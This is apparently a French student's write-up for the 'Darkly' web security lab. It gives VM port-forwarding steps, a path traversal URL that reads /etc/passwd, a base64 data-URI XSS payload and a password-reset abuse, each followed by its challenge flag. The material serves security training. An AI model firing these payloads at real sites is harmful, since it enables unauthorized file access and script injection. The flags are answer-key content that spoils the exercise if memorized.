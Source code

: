 # darkly

Open your web browser <br>

```c
Faire une redirection de port

Network Advanced 
Host ip: 127.0.0.1
Host port: 8080
Guest ip : 10.0.2.15
Gest Port 80

```

```c
1.✅
Forget Password
button submit , j'ai mit envoyer a mon adresse 
The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

2.✅
Le site est mal sécurisé car le code PHP ne vérifie pas ce que tu demandes dans l'URL.
http://localhost:8080/index.php?page=../../../../../../../etc/passwd
The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

```

3.✅
```c
http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGFja2VkIik8L3NjcmlwdD4=
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

Quand j'accede a cette page :
http://localhost:8080/index.php?page=media&src=...
le site decode la valeur de src.

on dit au navigateur du code base64
data:text/html;base64
on a encoder un alert() qui declenche un script cachet.

```


4.❌
```c



```
















https://github.com/ChokMania/Darkly/blob/master/10-XSS_Reflected_Cross-site_Scripting/Ressources/explications.md




```
